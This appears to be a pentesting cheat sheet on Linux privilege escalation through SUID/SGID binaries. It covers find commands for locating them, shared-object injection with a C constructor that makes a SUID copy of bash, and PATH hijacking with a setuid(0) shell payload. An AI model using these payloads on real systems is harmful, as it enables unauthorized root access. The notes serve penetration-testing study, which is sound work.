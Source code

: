 - **SUID** stands for Set User ID, which is a special permission flag in Linux that givers users the ability to run files as the owner of those files.
**Representation:** **_`-rwsr-xr-x`_**

- **SGID** stands for Set Group ID, which is a special permission flag in Linux that modifies how files and directories are treated with respect to group permissions.
**Representation:** **_`-rwxr-sr-x`_**

The following command can be used to search for SUID files:
**_`find / -perm -u=s -type f 2>/dev/null`_**

The following command can be used to search for SGID files:
**_`find / -perm -g=s -type f 2>/dev/null`_**
***
## P.E via Shared Object Injection:

- Initially scan for files with SUID bit set using **_`find / -perm -04000 -type f -ls 2>/dev/null`_** and look for files named **_so_** as in shared object.

- If you run **_`ls -la`_** on this shared object file, this file would have both, SUID and SGID, bit set. -- **_`-rwsr-sr-x`_**

- Next, run the binary using **_`strace`_** to see what is happening in the background. 
**_`strace <so binary file path> 2>&1`_** 

- Look for any dependencies that the binary uses, such as files, which can be modified or injected with malicious code which when accessed or executed by the shared object file gives us root access. 

**NOTE:** If the dependency file mentioned within the output is not available, we can create one with malicious code written inside the dependency file. 
***
### Simple malicious C code for .c file injection:

This code will copy the **_`/bin/bash`_** file to the **_`/tmp`_** folder and set the SUID bit to the **_`/tmp/bash`_**. 

**NOTE:** The **_`-p`_** flag is used to copy a file while maintaining the attributes of the original file.

```C
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject()
{
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p")
}
```
***
## P.E via Environmental Variables:

Environmental Variables are dynamic values that can impact the behavior of programs and processes on a machine. 

They are used to store information that needs to be accessible by multiple system programs or processes. 

**NOTE:** Run **_`printenv`_** to list all the current environment variables in Linux. 

- Initially run **_`find / -type f -perm -04000 -ls 2>/dev/null`_** and look for SUID binaries with _**env**_ in their names.

- Run **_`strings`_** on the binary to check if it runs any system binaries/commands. Once a system command has been identified, create a file named after the system command under the **_`/tmp`_** folder with a malicious C code written into the file.
**_`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/<filename>.c`_**


- Now compile the .c file using **_`gcc /tmp/<filename>.c -o /tmp/<binary name>`_**. Now include the **_`/tmp`_** into the PATH using **_`export PATH=/tmp:$PATH`_**.

- Run **_`echo $PATH`_** to check if the **_`/tmp`_** folder has been added to the PATH. If the **_`/tmp`_** folder has been added to **_$PATH_**, run the **_env_** binary and this will give you a root shell.

***
